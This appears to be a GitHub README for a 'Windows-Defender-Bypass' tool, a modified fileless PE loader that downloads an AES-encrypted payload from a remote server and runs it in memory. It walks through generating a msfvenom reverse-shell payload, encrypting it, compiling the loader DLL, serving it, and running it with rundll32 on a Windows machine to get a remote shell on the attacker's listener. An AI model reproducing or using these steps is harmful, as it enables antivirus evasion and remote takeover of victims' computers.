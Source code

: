# Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]

This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.

STEPS TO REPRODUCE:
1. Clone the repository.
2. Edit the IP , port in FilelessPELoader.cpp script.
3. Use the aes.py script to create a encrypted bin files.
   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The syntax for the same is
   ```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

    ```python3 aes.py shell.exe```

Successfull execution of the above command will result two files named cipher.bin and key.bin.

5. Use the following command to compile FilelessPELoader.cpp to a dll.
   ```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.
6. Transfer the dll to a windows machine.
7. Open command prompt and run the following command.

    ```rundll32 a.dll, DllRegistryServer```

9. After a second, You will see the connection in your terminal where you started your listener.

